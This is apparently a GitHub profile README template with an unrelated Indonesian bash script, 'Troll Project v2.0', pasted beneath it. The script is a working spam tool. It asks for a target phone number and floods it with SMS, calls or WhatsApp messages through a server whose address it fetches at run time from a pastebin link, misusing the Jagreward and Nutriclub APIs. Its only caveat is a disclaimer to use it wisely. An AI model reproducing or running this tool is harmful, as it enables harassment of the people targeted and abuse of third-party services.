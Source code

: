 - 👋 Hi, I’m @Boyidxxx
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Boyidxxx/Boyidxxx is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#            Jangan lupa subscribe channel HelloBae (Hackbae)                  #
#                 https://www.youtube.com/c/hellobae                           #
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                       _            _  __                              ////
#////                      | |          (_)/ _|                             ////
#////                   ___| |_   _  ___ _| |_ ___ _ __                     ////
#////                  |_  / | | | |/ __| |  _/ _ \ '__|                    ////
#////                   / /| | |_| | (__| | ||  __/ |                       ////
#////                  /___|_|\__,_|\___|_|_| \___|_|                       ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
zlucifer="Jangan lupa subscribe channel HelloBae (Hackbae) https://www.youtube.com/c/hellobae"
#///////////////////////////////////////////////////////////////////////////////
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    echo "================================================"
    echo "=  _____        _ _ ___          _        _    ="
    echo "= |_   _| _ ___| | | _ \_ _ ___ (_)___ __| |_  ="
    echo "=   | || '_/ _ \ | |  _/ '_/ _ \| / -_) _|  _| ="
    echo "=   |_||_| \___/_|_|_| |_| \___// \___\__|\__| ="
    echo "=                             |__/             ="
    echo "================================================"
    echo "               Troll Project v2.0"
    echo "================================================"
}
server=$(curl -s https://pastebin.com/raw/DhQB56dd)
loading(){
  	load="Loading.... "
  	loading=${#load}
  	i=0
  	while((i<100)); do
    		n=$((i*loading / 100))
    		printf "\e[00;32m\r[%-${loading}s]\e[00m" "${load:0:n}"
    		((i += RANDOM%10))
    		sleep 0.1
  	done
    echo -e "\n"
}
mulai(){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ] || [ $lagi = "Y" ] ; then
          spam
    else
          clear
          troll
          echo "Terimakasih sudah menggunakan Troll project"
          close
    fi
}
close(){
    exit
}
#spam
spam(){
    clear
    troll
    loading
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Spam WhatsApp"
    echo "[4] Close Troll Project"
    echo
    echo "1/2/3/4?"
    read pilih
    if [ $pilih = "1" ]; then
        #spam sms
        clear
        troll
        loading
        clear
        troll
        echo "Troll Spam SMS"
        echo
        echo "Silahkan masukan nomor telp target"
        echo contoh 0812345678
        read target # masukin no telp
        echo
        echo "Berapa sms yang mau dikirim?"
        read paket
        echo
        echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
        echo y/n?
        read confirm
        echo
        if [ $confirm = "y" ]  || [ $confirm = "Y" ] ; then
                clear
                troll
                loading
                clear
                troll
                echo "Melakukan spam sms ke nomor "$target
                echo
                echo "Jangan close aplikasi sebelum spam selesai"
                echo "========================================"
                cek_target=`curl -A "$zlucifer" -s $server/api_sms.php?nomor=$target"&paket="$paket`
                echo -e $cek_target
                echo " Gunakan tools dengan bijak"
                echo
                echo " Love u always "
                echo " -zLucifer"
                echo "========================================"
        else
                echo "Kesalahan"
        fi
        mulai
    elif [ $pilih = "2" ]; then
        #spam call
        clear
        troll
        loading
        clear
        troll
        echo "Troll Spam Telp"
        echo
        echo "Silahkan masukan nomor telp target"
        echo contoh 0812345678
        read target # masukin no telp
        echo
        echo "Gunakan API Jagreward/Nutriclub?"
        echo "[1] Jagreward"
        echo "[2] Nutriclub"
        echo "1/2?"
        read api
        if [ $api = "1" ]; then
            api_spam="jagreward"
        else
            api_spam="nutriclub"
        fi
        echo
        echo "Apakah nomor" $target "dan spam menggunakan" $api_spam "sudah benar?"
        echo y/n?
        read confirm
        echo
        if [ $confirm = "y" ]  || [ $confirm = "Y" ] ; then
                  clear
                  troll
                  loading
                  clear
                  troll
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -A "$zlucifer" -s $server/api_call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u always "
                  echo " -zLucifer"
                  echo "========================================"
        else
                  echo Kesalahan, silahkan coba lagi
        fi
        mulai
    elif [ $pilih = "3" ]; then
        #spam WhatsApp
        clear
        troll
        loading
        clear
        troll
        echo "Troll Spam WhatsApp"
        echo
        echo "Silahkan masukan nomor telp target"
        echo contoh 0812345678
        read target # masukin no telp
        echo
        echo "Berapa WhatsApp yang mau dikirim?"
        read paket
        echo
        echo Apakah nomor $target "dan WhatsApp dikirim "$paket" sudah benar?"
        echo y/n?
        read confirm
        echo
        if [ $confirm = "y" ]  || [ $confirm = "Y" ] ; then
                clear
                troll
                loading
                clear
                troll
                echo "Melakukan spam WhatsApp ke nomor "$target
                echo
                echo "Jangan close aplikasi sebelum spam selesai"
                echo "========================================"
                cek_target=`curl -A "$zlucifer" -s $server/api_wa.php?nomor=$target"&paket="$paket`
                echo -e $cek_target
                echo " Gunakan tools dengan bijak"
                echo
                echo " Love u always "
                echo " -zLucifer"
                echo "========================================"
        else
                echo "Kesalahan"
        fi
        mulai
    elif [ $pilih = "4" ]; then
        #tutup
        clear
        troll
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        troll
        echo "Kesalahan"
        mulai
  fi
}
#mulai
clear
troll
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai Troll Project?"
echo "y/n?"
read confirm
if [ $confirm = "y" ] || [ $confirm = "Y" ] ; then
    spam
else
    echo "Terimakasih sudah menggunakan Troll project"
    close
fi
